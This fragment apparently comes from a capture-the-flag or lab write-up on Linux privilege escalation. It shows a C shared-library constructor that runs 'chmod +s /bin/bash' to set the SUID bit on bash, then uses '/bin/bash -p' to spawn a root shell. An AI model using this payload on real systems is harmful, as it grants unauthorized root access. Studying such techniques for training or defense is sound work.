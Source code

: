 ![NON](file-20250620213923817.png)

![NON](file-20250620214329838.png)

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod +s /bin/bash");
    exit(0);
}
EOF
```

After sometime, the script seems to have executed, and we can check the `/bin/bash` file to see if it has the SUID bit set. For spawning a root shell, we can use the `/bin/bash -p` command: 

![NON](file-20250620214247057.png)
